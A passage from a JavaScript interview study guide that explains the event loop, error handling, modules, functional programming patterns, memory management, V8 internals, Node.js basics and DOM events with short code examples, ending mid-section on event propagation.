JavaScript is **single-threaded** — it can only do one thing at a time. But it can handle async operations (timers, fetch, events) without blocking. The **Event Loop** is the mechanism that makes this possible. The heavy lifting (timers, network) is done by the **host environment** (browser Web APIs or Node's libuv), not by the JS engine.

### 11.2 Core Components

```
┌────────────────────────────────┐
│         Call Stack             │ ← Executes code (LIFO)
├────────────────────────────────┤
│         Heap                   │ ← Memory allocation
├───────────────┬────────────────┤
│   Web APIs    │   Node.js APIs │ ← Handle async ops
│  (browser)    │   (libuv)      │
├───────────────┴────────────────┤
│      Microtask Queue           │ ← Promises, queueMicrotask
│      Macrotask Queue           │ ← setTimeout, setInterval, I/O
├────────────────────────────────┤
│         Event Loop             │ ← Coordinates everything
└────────────────────────────────┘
```



### 11.3 How it Works — Step by Step

1. JS runs synchronous code line by line, pushing functions onto the **Call Stack**.
2. When an async operation completes (timer fires, fetch resolves), its callback goes into a **queue**.
3. The **Event Loop** constantly checks: *"Is the Call Stack empty?"*
4. If yes → it first **drains the entire Microtask Queue**, then picks **one** task from the Macrotask Queue and pushes it onto the Call Stack.
5. **Microtasks** (Promises) are always processed **before** the next Macrotask (setTimeout).
6. In browsers, rendering (style → layout → paint, plus `requestAnimationFrame` callbacks) may happen between macrotasks.

**Execution order:**

```
1. Synchronous code (call stack)
2. Microtasks (Promises .then, queueMicrotask, process.nextTick)
3. Macrotasks (setTimeout, setInterval, I/O callbacks)
4. Back to step 2 (empty microtask queue before next macrotask)
```



### 11.4 Example 1 — Basic Order

```js
console.log('1 - Start');             // synchronous

setTimeout(() => {
  console.log('2 - setTimeout');      // macrotask queue
}, 0);

Promise.resolve().then(() => {
  console.log('3 - Promise');         // microtask queue
});

console.log('4 - End');               // synchronous

// OUTPUT:
// 1 - Start
// 4 - End
// 3 - Promise      ← microtask runs BEFORE setTimeout
// 2 - setTimeout   ← macrotask runs last
```

**Why?**
- Lines 1 and 4 are synchronous → run immediately on Call Stack
- `setTimeout` callback → goes to Macrotask Queue
- `Promise.then` callback → goes to Microtask Queue
- Call Stack is now empty → Event Loop checks Microtask Queue first → runs Promise
- Then checks Macrotask Queue → runs setTimeout

### 11.5 Example 2 — Visualizing the Queues

```js
console.log('A');

setTimeout(() => console.log('B'), 0);
setTimeout(() => console.log('C'), 0);

Promise.resolve().then(() => console.log('D'));
Promise.resolve().then(() => console.log('E'));

console.log('F');

// OUTPUT: A → F → D → E → B → C
```

**Walkthrough:**
```
Call Stack runs:  A, F  (synchronous)
Microtask Queue:  [D, E]
Macrotask Queue:  [B, C]

Event Loop: Stack empty → drain microtasks → D, E
Event Loop: Stack empty → pick next macrotask → B
Event Loop: Stack empty → pick next macrotask → C
```

### 11.6 Example 3 — Chained Promises and queueMicrotask

```js
console.log("1");                         // sync

setTimeout(() => console.log("2"), 0);   // macrotask

Promise.resolve()
  .then(() => console.log("3"))          // microtask
  .then(() => console.log("4"));         // microtask (queued only after "3" runs)

queueMicrotask(() => console.log("5"));  // microtask

console.log("6");                         // sync

// Output: 1, 6, 3, 5, 4, 2
```

**Why is 5 before 4?** The second `.then` is only queued *after* the first `.then` runs. At that moment, `5` is already waiting in the queue.

### 11.7 Example 4 — async/await is Just Promises

```js
async function main() {
  console.log('1');

  await Promise.resolve();       // pauses here, schedules rest as microtask

  console.log('2');              // runs after microtask queue pick-up
}

main();
console.log('3');

// OUTPUT: 1 → 3 → 2
```

**Why?** `await` suspends the async function and puts the rest of it into the **microtask queue**. Meanwhile, synchronous code (`console.log('3')`) continues. The code **before** the first `await` runs synchronously. (Same result with `await null` — prints A, C, B in the cheat sheet version.)

### 11.8 Example 5 — Nested Microtasks

```js
Promise.resolve()
  .then(() => {
    console.log('A');
    return Promise.resolve();   // adds another microtask
  })
  .then(() => console.log('B'));

Promise.resolve().then(() => console.log('C'));

// OUTPUT: A → C → B
```

**Why?** After `A` runs, `B` is scheduled as a *new* microtask at the end of the queue (returning a promise from `.then` even adds extra microtask "ticks"). `C` was already in the queue before `B`, so `C` runs first.

### 11.9 Microtasks vs Macrotasks

| Task Type | Examples | Priority | Queue |
|---|---|---|---|
| Synchronous | Regular code, function calls | Immediate | Call Stack |
| **Microtask** | `Promise.then/catch/finally`, `async/await` continuations, `queueMicrotask`, `MutationObserver`, `process.nextTick` (Node, runs even before promise microtasks) | High — all run before any macrotask | Microtask Queue |
| **Macrotask** | `setTimeout`, `setInterval`, `setImmediate` (Node), I/O, UI/DOM events, `MessageChannel` | Normal | Macrotask (Task) Queue |

> **Key rule:** After each macrotask, ALL pending microtasks run before the next macrotask starts.
>
> **Notes:** `requestAnimationFrame` is often listed with macrotasks, but it actually runs in the browser's **rendering step**, just before paint. A `fetch` response itself arrives via the network task source, but the code you write in `.then()`/after `await` runs as a **microtask**.

> **Interview answer:** "The event loop continuously checks if the call stack is empty. When it is, it first drains all microtasks (Promises), then picks one macrotask (setTimeout), then drains microtasks again, and so on."

**Trap — microtask starvation:** A microtask that keeps queuing microtasks will block macrotasks and rendering forever:

```js
function loop() { Promise.resolve().then(loop); } // freezes the page
```

### 11.10 setTimeout Accuracy

```js
// setTimeout(fn, 0) doesn't mean 0ms delay
// It means "as soon as possible after current code and microtasks"
setTimeout(() => {}, 0); // minimum delay ~1-4ms in browsers

// HTML spec sets minimum timeout to 4ms for nested timeouts (nesting level > 5)
// Background tabs may throttle timers to 1000ms or more
```

The delay is a **minimum**, not a guarantee — if the call stack is busy, the callback waits.

### 11.11 Node.js Event Loop Phases

```
   ┌──────────────────────────┐
┌─ │       timers             │ ← setTimeout, setInterval
│  └─────────────┬────────────┘
│  ┌─────────────┴────────────┐
│  │    pending callbacks     │ ← I/O errors
│  └─────────────┬────────────┘
│  ┌─────────────┴────────────┐
│  │    idle, prepare         │ ← internal
│  └─────────────┬────────────┘
│  ┌─────────────┴────────────┐
└─ │         poll             │ ← fetch I/O events, run callbacks
   └─────────────┬────────────┘
   ┌─────────────┴────────────┐
   │         check            │ ← setImmediate
   └─────────────┬────────────┘
   ┌─────────────┴────────────┐
   │    close callbacks       │ ← socket.close etc.
   └──────────────────────────┘
```

Between every phase (and after each callback in modern Node), `process.nextTick` callbacks run first, then promise microtasks.

### 11.12 process.nextTick vs setImmediate

```js
setTimeout(() => console.log("timeout"), 0);
setImmediate(() => console.log("immediate"));
process.nextTick(() => console.log("nextTick"));
console.log("sync");

// Output: sync → nextTick → timeout → immediate
// (setImmediate order vs setTimeout is non-deterministic outside I/O)
```

| Function | When runs |
|----------|-----------|
| `process.nextTick` | Before promise microtasks, before event loop continues |
| `Promise.then` | After current operation, before next I/O |
| `setImmediate` | After I/O events, in check phase |
| `setTimeout(fn,0)` | In timers phase |

> Inside an I/O callback, `setImmediate` **always** fires before `setTimeout(fn, 0)` because the check phase comes right after poll.

---

## 12. Error Handling

### 12.1 try / catch / finally

```js
try {
  const data = JSON.parse(invalidJSON);  // throws SyntaxError
  undeclaredFn();                        // throws ReferenceError
} catch (err) {
  console.error(err.name);    // "SyntaxError"
  console.error(err.message); // "Unexpected token..."
  console.error(err.stack);   // stack trace

  if (err instanceof SyntaxError) {
    // handle specifically
  }
} finally {
  // Always runs — cleanup code, even if no error
}
```

> **Trap:** `try/catch` does NOT catch errors thrown later inside a `setTimeout` callback or an un-awaited promise — those run in a different turn of the event loop.

### 12.2 Error Types

| Error | Cause |
|-------|-------|
| `SyntaxError` | Invalid JavaScript syntax |
| `ReferenceError` | Accessing undeclared variable (or TDZ access) |
| `TypeError` | Wrong type operation (`null.property`, calling a non-function) |
| `RangeError` | Value out of range (array length -1, stack overflow) |
| `URIError` | Invalid URI encoding |
| `EvalError` | Deprecated eval usage |
| `AggregateError` | Multiple errors (e.g. `Promise.any` when all reject) |

### 12.3 Custom Errors

```js
class ValidationError extends Error {
  constructor(message, field) {
    super(message);
    this.name = "ValidationError";
    this.field = field;
    // Fix prototype chain in transpiled code:
    Object.setPrototypeOf(this, ValidationError.prototype);
  }
}

class NetworkError extends Error {
  constructor(message, statusCode) {
    super(message);
    this.name = "NetworkError";
    this.statusCode = statusCode;
  }
}

try {
  throw new ValidationError("Invalid email", "email");
} catch (err) {
  if (err instanceof ValidationError) {
    console.log(err.field); // "email"
  }
}
```

### 12.4 Async Error Handling

```js
// Promises
fetchData()
  .then(process)
  .catch(err => console.error(err)); // handles all above

// Async/Await
async function run() {
  try {
    const data = await fetchData();
  } catch (err) {
    console.error(err);
  }
}

// Global unhandled rejection handler (Node.js)
process.on("unhandledRejection", (reason, promise) => {
  console.error("Unhandled Rejection:", reason);
});

// Browser
window.addEventListener("unhandledrejection", event => {
  console.error(event.reason);
});
```

React-specific error handling (Error Boundaries) is in [24.15](#2415-error-boundaries).

---

## 13. Modules (CommonJS and ES Modules)

### 13.1 CommonJS (Node.js default)

```js
// Export
module.exports = { add, subtract }; // named (object of exports)
module.exports = function() {};      // default (single export)
exports.add = function() {};         // shorthand

// Import
const { add } = require("./math");
const math = require("./math");
const _ = require("lodash");         // node_modules
```

> **Trap:** `exports = {...}` (reassigning `exports`) breaks the link to `module.exports` — nothing gets exported.

### 13.2 ES Modules (ESM)

```js
// Named exports
export const PI = 3.14159;
export function add(a, b) { return a + b; }
export class User {}

// Default export (one per module)
export default function main() {}

// Combined
export { add, PI };
export default class App {}

// Import
import { add, PI } from "./math.js";
import App from "./app.js";
import * as math from "./math.js";       // namespace import
import { add as sum } from "./math.js";  // rename

// Dynamic import (code splitting)
const module = await import("./heavy.js");
if (condition) {
  const { fn } = await import("./optional.js");
}
```

### 13.3 CommonJS vs ESM

| Feature | CommonJS | ES Modules |
|---------|----------|-----|
| Syntax | `require` / `module.exports` | `import` / `export` |
| Loading | Synchronous, dynamic (runtime) | Asynchronous, static (analyzed at compile/parse time) |
| Binding | Value copy | **Live binding** |
| Tree-shaking | ❌ Hard / No | ✅ Easy / Yes |
| Top-level await | ❌ No | ✅ Yes |
| Browser native | ❌ No (needs bundler) | ✅ Yes (`<script type="module">`) |
| `this` at top level | `module.exports` | `undefined` |
| File extension | `.js` / `.cjs` | `.mjs` or `"type":"module"` in package.json |
| Default in | Node.js (legacy) | Modern JS, React, Vite, browsers |

**Why tree-shaking needs ESM:** `import`/`export` are static — the bundler can see at build time which exports are never used and remove them. `require()` can be called conditionally with computed paths, so the bundler can't be sure. See [36.1 Tree Shaking](#361-tree-shaking).

---

## 14. Functional Programming

### 14.1 Core Principles

1. **Pure Functions** — same input → same output, no side effects
2. **Immutability** — never modify data, always return new data
3. **Function Composition** — combine small functions to build complex ones
4. **Higher-Order Functions** — functions that take/return functions
5. **Declarative** — describe WHAT not HOW

> These ideas are the foundation of React (pure render functions, immutable state updates) and Redux (pure reducers).

### 14.2 Currying

**Simple definition:** Transform a multi-argument function `f(a, b, c)` into a chain of single-argument functions `f(a)(b)(c)`.

```js
// Manual currying
const add = a => b => a + b;
add(2)(3); // 5
const add5 = add(5);
add5(3);  // 8
add5(10); // 15

const multiply = a => b => c => a * b * c;
multiply(2)(3)(4); // 24

// Practical currying — reusable specialized functions
const mul = a => b => a * b;
const double = mul(2);
const triple = mul(3);
[1,2,3].map(double); // [2,4,6]
```

**Generic `curry` utility (interview question):**

```js
// Version 1 — concise
function curry(fn) {
  return function curried(...args) {
    if (args.length >= fn.length) return fn(...args);
    return (...more) => curried(...args, ...more);
  };
}

// Version 2 — preserves `this` (useful for methods)
function curryWithThis(fn) {
  return function curried(...args) {
    if (args.length >= fn.length) {
      return fn.apply(this, args);
    }
    return function(...moreArgs) {
      return curried.apply(this, args.concat(moreArgs));
    };
  };
}

const curriedAdd = curry((a, b, c) => a + b + c);
curriedAdd(1)(2)(3); // 6
curriedAdd(1, 2)(3); // 6
curriedAdd(1)(2, 3); // 6
```

> **Trap:** `fn.length` doesn't count default params or rest params, so `curry` won't work as expected with them.

### 14.3 Partial Application

Fix **some** arguments now, supply the rest later (curry = always one at a time; partial = any number).

```js
function partial(fn, ...preArgs) {
  return function(...laterArgs) {
    return fn(...preArgs, ...laterArgs);
  };
}

const multiply3 = (a, b, c) => a * b * c;
const double = partial(multiply3, 2);
const triple = partial(multiply3, 3);
double(4, 5);  // 40  (2 * 4 * 5)
triple(4, 5);  // 60  (3 * 4 * 5)

// Built-in partial application: bind
const doubleBound = multiply3.bind(null, 2);
```

### 14.4 Function Composition

```js
// compose — right to left (math style)
const compose = (...fns) => x => fns.reduceRight((v, f) => f(v), x);

// pipe — left to right (more readable)
const pipe = (...fns) => x => fns.reduce((v, f) => f(v), x);

const double = x => x * 2;
const addOne = x => x + 1;
const square = x => x * x;

const transform = pipe(double, addOne, square);
transform(3); // square(addOne(double(3))) = square(7) = 49

const processValue = pipe(
  x => x * 2,
  x => x + 1,
  x => `Result: ${x}`
);
processValue(5); // "Result: 11"
```

### 14.5 Memoization

**Simple definition:** Cache the result of a function call so the same input returns instantly the next time. Built on closures.

```js
function memoize(fn) {
  const cache = new Map();
  return function(...args) {
    const key = JSON.stringify(args);
    if (cache.has(key)) return cache.get(key);
    const result = fn.apply(this, args);
    cache.set(key, result);
    return result;
  };
}

// ✅ Correct: the recursive calls go through the memoized function
const fibonacci = memoize(n => {
  if (n <= 1) return n;
  return fibonacci(n - 1) + fibonacci(n - 2);
});
fibonacci(40); // fast with memoization

// Named function expression variant
const expensiveFib = memoize(function fib(n) {
  return n <= 1 ? n : expensiveFib(n-1) + expensiveFib(n-2);
});

// ⚠️ Trap: memoizing a function whose recursion calls the ORIGINAL
const slowFib = n => n <= 1 ? n : slowFib(n-1) + slowFib(n-2);
const fastFib = memoize(slowFib);
fastFib(40); // first call is still slow (inner calls are NOT cached); repeat calls with 40 are instant
```

**Trade-offs:** uses memory, only valid for **pure** functions, `JSON.stringify` keys fail for functions/circular objects. Use a `WeakMap` when the argument is a single object. React's version: `useMemo`, `useCallback`, `React.memo` ([25.6](#256-usememo)).

---

## 15. JavaScript Design Patterns

### 15.1 Module Pattern

Uses an IIFE + closure to create private state with a public API.

```js
const BankAccount = (function() {
  let _balance = 0;          // private
  let _transactions = [];    // private

  return {
    deposit(amount) {
      _balance += amount;
      _transactions.push({ type: "deposit", amount });
    },
    withdraw(amount) {
      if (amount > _balance) throw new Error("Insufficient funds");
      _balance -= amount;
    },
    getBalance() { return _balance; },
    getHistory() { return [..._transactions]; }
  };
})();

BankAccount.deposit(100);
BankAccount.getBalance(); // 100
// _balance is not accessible from outside
```

### 15.2 Singleton Pattern

Ensures only **one instance** exists (DB connection, config, logger). Note: ES modules are themselves singletons — a module is evaluated once and cached.

```js
class Database {
  static #instance = null;

  constructor(url) {
    if (Database.#instance) return Database.#instance;
    this.url = url;
    this.connection = null;
    Database.#instance = this;
  }

  static getInstance(url) {
    if (!Database.#instance) new Database(url);
    return Database.#instance;
  }

  connect() { /* ... */ }
}

const db1 = Database.getInstance("mongodb://...");
const db2 = Database.getInstance("mongodb://...");
db1 === db2; // true — same instance
```

### 15.3 Observer / PubSub Pattern

Objects subscribe to events and get notified when they fire. Used by DOM events, Node's EventEmitter, Redux store subscriptions, RxJS.

```js
class EventEmitter {
  #events = {};

  on(event, listener) {
    if (!this.#events[event]) this.#events[event] = [];
    this.#events[event].push(listener);
    return this; // chainable
  }

  off(event, listener) {
    this.#events[event] = (this.#events[event] || [])
      .filter(l => l !== listener);
    return this;
  }

  emit(event, ...args) {
    (this.#events[event] || []).forEach(l => l(...args));
    return this;
  }

  once(event, listener) {
    const wrapper = (...args) => {
      listener(...args);
      this.off(event, wrapper);
    };
    return this.on(event, wrapper);
  }
}

const emitter = new EventEmitter();
emitter.on("data", d => console.log(d));
emitter.emit("data", { id: 1 }); // { id: 1 }
```

### 15.4 Factory Pattern

Creates objects without exposing the exact class to the caller.

```js
class Shape {
  area() { throw new Error("Not implemented"); }
}

class Circle extends Shape {
  constructor(r) { super(); this.r = r; }
  area() { return Math.PI * this.r ** 2; }
}

class Rectangle extends Shape {
  constructor(w, h) { super(); this.w = w; this.h = h; }
  area() { return this.w * this.h; }
}

// Factory
function createShape(type, ...args) {
  const shapes = { circle: Circle, rectangle: Rectangle };
  if (!shapes[type]) throw new Error(`Unknown shape: ${type}`);
  return new shapes[type](...args);
}

createShape("circle", 5).area();       // 78.54
createShape("rectangle", 4, 6).area(); // 24
```

### 15.5 Strategy Pattern

Swap algorithms at runtime behind the same interface.

```js
const sorters = {
  bubble: (arr) => { /* bubble sort implementation */ },
  quick:  (arr) => { /* quicksort implementation */ },
  merge:  (arr) => { /* merge sort implementation */ }
};

class Sorter {
  constructor(strategy = "quick") {
    this.strategy = sorters[strategy];
  }
  setStrategy(strategy) {
    this.strategy = sorters[strategy];
  }
  sort(arr) {
    return this.strategy([...arr]);
  }
}
```

### 15.6 Proxy Pattern (Validation, Logging)

```js
function createValidatedUser(userData) {
  return new Proxy(userData, {
    set(target, prop, value) {
      if (prop === "age" && (typeof value !== "number" || value < 0))
        throw new TypeError("Age must be a positive number");
      if (prop === "email" && !value.includes("@"))
        throw new TypeError("Invalid email");
      target[prop] = value;
      return true;
    }
  });
}
```

React-specific patterns (HOC, render props, compound components) are in [26.11](#2611-component-patterns-hoc-render-props-compound-components); architecture patterns are in [38](#38-frontend-architecture-and-system-design).

---

## 16. Memory Management and Performance

### 16.1 Garbage Collection

JavaScript uses the **Mark-and-Sweep** algorithm:
1. Start from "roots" (global object, current call stack variables)
2. Mark all reachable objects
3. Collect (free) all unmarked objects

V8 also uses a **generational** collector: new objects live in a small "young generation" that is collected often and cheaply; long-lived objects are promoted to the "old generation".

```js
function createHeavyData() {
  let bigArray = new Array(1000000).fill("*");
  return bigArray; // returned reference keeps it alive
}

// When no references remain → eligible for GC
let data = createHeavyData();
data = null; // removes reference → GC can collect
```

### 16.2 Memory Leak Patterns

```js
// 1. Forgotten timers
const interval = setInterval(() => { /* uses closured data */ }, 1000);
// Fix: clearInterval(interval) when no longer needed

// 2. Detached DOM nodes
let button = document.getElementById("btn");
button.addEventListener("click", heavyHandler);
button = null; // reference gone but listener still holds button in memory
// Fix: removeEventListener before removing from DOM

// 3. Closures holding large objects
function process() {
  const bigData = new Array(1000000).fill("*");
  return function() {
    return bigData[0]; // bigData held for lifetime of returned fn
  };
}

// 4. Global variable accumulation
function leaky() {
  leakyVar = "I'm now global!"; // missing var/let/const (strict mode prevents this)
}

// 5. Event listeners not removed
element.addEventListener("click", handler);
element.remove(); // element removed from DOM but listener persists
// Fix: element.removeEventListener("click", handler);
```

React-specific leaks (uncleared intervals, listeners, setState after unmount) are covered in [29.12](#2912-memory-leaks-in-react).

**How to find leaks:** Chrome DevTools → Memory tab → take heap snapshots before/after an action and compare; look for "Detached" DOM nodes.

### 16.3 WeakMap and WeakSet for Memory-Safe Patterns

```js
// DOM node metadata without preventing GC
const metadata = new WeakMap();
function setMeta(node, data) { metadata.set(node, data); }
// When node is GC'd, its entry in WeakMap is auto-removed

// Private data per instance
const _private = new WeakMap();
class Person {
  constructor(name, secret) {
    _private.set(this, { secret });
    this.name = name;
  }
  getSecret() { return _private.get(this).secret; }
}
```

### 16.4 Performance Optimization Techniques

```js
// Memoization — cache expensive function results (see 14.5)
const fastFib = memoize(fib);

// Lazy initialization
class Config {
  get heavyData() {
    if (!this._heavyData) {
      this._heavyData = computeHeavyData(); // computed once on first access
    }
    return this._heavyData;
  }
}

// Web Workers for CPU-intensive tasks (see 21.6)
const worker = new Worker("worker.js");
worker.postMessage({ data: largeArray });
worker.onmessage = (e) => console.log("Result:", e.data);
```

Other techniques: debounce/throttle event handlers ([19.6](#196-debounce-and-throttle)), event delegation ([19.5](#195-event-delegation)), batch DOM reads/writes ([20.4](#204-dom-performance-batch-reads-and-writes)), virtualize long lists ([29.10](#2910-virtualization-for-large-lists)).

---

## 17. JavaScript Internals and the V8 Engine

### 17.1 How V8 Works

```
JS Source → Parser → AST → Ignition (bytecode) → TurboFan (machine code)
```

1. **Parsing** — Source code → tokens → AST (Abstract Syntax Tree)
2. **Ignition** — AST → bytecode (interpreted)
3. **TurboFan** — Hot (frequently run) bytecode → optimized machine code (JIT)
4. **Deoptimization** — If assumptions break (type change) → back to bytecode



### 17.2 Hidden Classes and Inline Caching

V8 creates **hidden classes** (shapes) to track object structure. Objects with the same shape share a hidden class, which lets V8 use **inline caching** — remembering where a property lives so later lookups are fast.

```js
// Good — consistent shape
function Point(x, y) {
  this.x = x; // always in same order
  this.y = y;
}
const p1 = new Point(1, 2);
const p2 = new Point(3, 4); // same hidden class → fast!

// Bad — inconsistent shape
const a = { x: 1 };
const b = { x: 1 };
a.y = 2;    // different hidden class → slower
delete b.x; // deletes → shape change → deoptimize
```

### 17.3 Stack and Heap Memory

```
Stack: primitive values, function call frames, references (pointers)
Heap:  objects, arrays, closures, functions (actual data)
```

| | Stack | Heap |
|---|---|---|
| Stores | Primitives, call frames, references | Objects, arrays, functions, closures |
| Size | Small, fixed | Large, dynamic |
| Speed | Very fast | Slower |
| Managed by | Automatic push/pop | Garbage collector |

### 17.4 JIT Compilation Optimization Tips

```js
// Consistent types (monomorphic > polymorphic)
function add(a, b) { return a + b; }
add(1, 2);         // always numbers → V8 optimizes
add("a", "b");     // now string too → less optimal

// Avoid arguments object (use rest params instead)
// Avoid dynamic property additions after object creation
// Initialize all properties in the constructor, in the same order
// Avoid `delete` on hot objects (set to undefined instead)
// Keep functions small and predictable
```

---

## 18. Node.js Essentials

### 18.1 CommonJS Module System

```js
const fs = require("fs");
const path = require("path");
const { EventEmitter } = require("events");

module.exports = { myFunction };
// __dirname  → current file's directory
// __filename → current file's full path
// (In ESM use import.meta.url / import.meta.dirname instead)
```

### 18.2 Built-in Modules

```js
// fs — file system
const fs = require("fs");
fs.readFile("file.txt", "utf8", (err, data) => {});
const data = fs.readFileSync("file.txt", "utf8"); // sync (blocks the event loop!)
fs.promises.readFile("file.txt", "utf8");         // promise

// path
path.join(__dirname, "files", "data.txt");
path.resolve("./relative");
path.extname("file.txt");    // ".txt"
path.basename("dir/file.txt"); // "file.txt"

// http
const http = require("http");
const server = http.createServer((req, res) => {
  res.writeHead(200, { "Content-Type": "text/plain" });
  res.end("Hello World");
});
server.listen(3000);
```

### 18.3 Streams

Process data **piece by piece** (chunks) instead of loading it all into memory — essential for large files.

```js
const { Readable, Writable, Transform } = require("stream");

// Pipe streams
const readStream = fs.createReadStream("large-file.txt");
const writeStream = fs.createWriteStream("output.txt");
readStream.pipe(writeStream);

// Transform stream
const upper = new Transform({
  transform(chunk, encoding, callback) {
    callback(null, chunk.toString().toUpperCase());
  }
});

readStream.pipe(upper).pipe(writeStream);
```

Stream types: **Readable**, **Writable**, **Duplex** (both), **Transform** (duplex that modifies data). `pipe` handles **backpressure** automatically.

### 18.4 EventEmitter

```js
const EventEmitter = require("events");
class Logger extends EventEmitter {
  log(msg) {
    this.emit("log", { message: msg, timestamp: new Date() });
  }
}

const logger = new Logger();
logger.on("log", ({ message, timestamp }) => {
  console.log(`[${timestamp}] ${message}`);
});
logger.log("Server started");
```

A from-scratch implementation is in [15.3 Observer / PubSub](#153-observer--pubsub-pattern).

### 18.5 process Object

```js
process.env.NODE_ENV       // environment variable
process.argv               // command line arguments
process.cwd()              // current working directory
process.exit(0)            // exit with code
process.memoryUsage()      // memory stats
process.nextTick(fn)       // schedule callback before promise microtasks
process.on("uncaughtException", handler)
process.on("unhandledRejection", handler)
```

Node's event loop phases and `nextTick` vs `setImmediate` are in [11.11](#1111-nodejs-event-loop-phases)–[11.12](#1112-processnexttick-vs-setimmediate).

---

# Part II — Browser, Web Platform and Security

---

## 19. DOM and Events

### 19.1 DOM Selection

```js
document.getElementById("id")
document.querySelector(".class")        // first match
document.querySelectorAll("div.item")   // all matches (static NodeList)
document.getElementsByClassName("cls") // live HTMLCollection
document.getElementsByTagName("div")
```

> **Live vs static:** `getElementsBy*` returns a **live** collection that updates automatically when the DOM changes; `querySelectorAll` returns a **static** snapshot.

### 19.2 DOM Manipulation

```js
// Creating & modifying
const div = document.createElement('div');
div.textContent = 'Hello';                          // safe (no XSS)
div.innerHTML = '<strong>Hello</strong>';           // ⚠️ XSS risk with user data
div.className = 'container';
div.classList.add('active');
div.classList.toggle('hidden');
div.setAttribute('data-id', '123');

// Inserting
document.body.appendChild(div);
parent.insertBefore(div, referenceNode);
parent.insertAdjacentHTML('beforeend', '<p>New</p>'); // fastest for HTML strings

// Efficient batch insert with DocumentFragment
const frag = document.createDocumentFragment();
for (let i = 0; i < 1000; i++) {
  const item = document.createElement("li");
  item.textContent = `Item ${i}`;
  frag.appendChild(item);
}
list.appendChild(frag); // single DOM operation → one reflow

// Removing
element.remove();
parent.removeChild(child);

// Clone
const clone = element.cloneNode(true); // deep clone
```

| Property | Parses HTML? | XSS-safe? | Notes |
|---|---|---|---|
| `textContent` | ❌ | ✅ | Fast, sets plain text |
| `innerText` | ❌ | ✅ | Layout-aware (triggers reflow), respects CSS visibility |
| `innerHTML` | ✅ | ❌ | Never use with user input |

### 19.3 Events

```js
// Add listener
element.addEventListener("click", handler, { once: true, capture: false, passive: true });

// Remove listener
element.removeEventListener("click", handler); // must be same function reference

// Event object
element.addEventListener("click", (e) => {
  e.target;           // element that triggered event (the one actually clicked)
  e.currentTarget;    // element listener is attached to
  e.preventDefault(); // prevent default behavior (form submit, link nav)
  e.stopPropagation();// stop bubbling up the DOM
  e.stopImmediatePropagation(); // also stop other listeners on same element
});
```

> `{ passive: true }` tells the browser the listener won't call `preventDefault()`, so scrolling stays smooth (important for `touchstart`/`wheel`).

### 19.4 Event Bubbling and Capturing

Every DOM event travels in **three phases**:

```
Capture phase: Window → Document → body → parent → element
Target phase:  the element itself
Bubble phase:  element → parent → body → Document → Window
```



```js
// Bubbling (default) — event travels UP from target to root
child.addEventListener('click', handler);          // 3rd arg default = false = bubble
child.addEventListener("click", handler, false);   // same thing, explicit

// Capturing — event travels DOWN from root to target
parent.addEventListener('click', handler, true);   // capture phase

// Stop propagation
element.addEventListener('click', (e) => {
